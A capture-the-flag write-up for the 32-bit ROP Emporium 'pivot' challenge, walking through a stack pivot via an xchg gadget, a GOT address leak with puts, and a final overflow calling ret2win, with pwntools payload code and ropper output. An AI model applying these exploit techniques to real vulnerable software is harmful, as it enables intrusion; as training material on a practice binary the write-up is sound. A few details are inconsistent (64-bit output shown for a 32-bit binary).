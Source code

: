 # pivot - 32bit

Pivot is a challenge that requires a new technique due to limited stack space. We only have for about ROP elements. This means we have to pivot to another chain to achieve anything purposeful.

Our overall aim is to call the `ret2win` function imported from the companying library.

The output of the program gives us an address of the area we should pivot to:

```
pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7fbeab9e2f10
Send your second chain now and it will land there
> 
```

The attack strategy is below:

1st stage
- Stack smash to pivot (Overwrite ESP)
- Leak address ROP chain

2nd stage
- Stack smash to call ret2win

## 1st Stage


### Stack smash
The buffer is exactly the same as all other challenges at 40. We need to use the limited stack size to pivot to the other buffer. This will be achieved by overwriting the `esp`. 

`ropper` has a flag to filter gadgets that are useful for this exact situation:

```
$ ropper --nocolor --stack-pivot -f pivot32

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======
0x0804889b: add esp, 0x10; nop; leave; ret; 
0x08048925: add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret; 
0x0804856e: add esp, 8; pop ebx; ret; 
0x080488c2: xchg eax, esp; ret; 

7 gadgets found
```

What really stands out is the `xchg` gadget, this combined with a `pop eax` gadget (that exists) will allow us to achieve our goal.

```
0x080488c0: pop eax; ret; 
```

The stack smash payload is formed like so:

```python
p = b""
p += junk        # 44 * "A"
p += pop_eax     # pop eax; ret; 
p += pivot_addr  # [Provided by program output]
p += xhg_gad     # xchg eax, esp; ret; 
```

### Leak addresses
The next step is to leak the `.so` file base address, this can be achieved by utilizing the `.plt` and `.got` imports. We will print the `got` entry of `foothold_function` with the function `puts`. We will then return to the `main` function to set up for the final stage.

Obtaining these addresses can be achieved with `pwntools`

```python
e = ELF(f"./{BINARY_NAME}")

foot_plt = p32(e.plt[b'foothold_function'])
foot_got = p32(e.got[b'foothold_function'])
puts_plt = p32(e.plt[b'puts'])

main_ptr = p32(e.symbols[b'main'])
```

We initially need to call `foothold_function@plt` in order to trigger the dynamic loader to populate the `GOT` with the function address we want.

Therefore, out payload is formed like so:

```python
p = b""
p += foot_plt
p += puts_plt
p += main_ptr # exit_address
p += foot_got
```

This will leak us the address of `function_function@got`! We will call it `foot_leak`.

Using offsets calculated with `readelf -s <file.so>` we can calculate the base address of the imported library, and therefore calculate the exact address of the `ret2win` function we want to call.

```python
foot_offset = 0x770
ret2_offset = 0x967
```

Calculating the addresses is achieved like:

```python
lib_base  = foot_leak - foot_offset
ret2_addr = p32(lib_base + ret2_offset)
```

# Final step

All we need to do now is perform a stack smash with the newly calculated `ret2_addr` value we just worked out.

The simple payload will be formed like so:

```python
p = b""
p += junk       # 44 x "A"
p += ret2_addr
```

This overall exploit will call the `ret2win` function and provide us with the flag!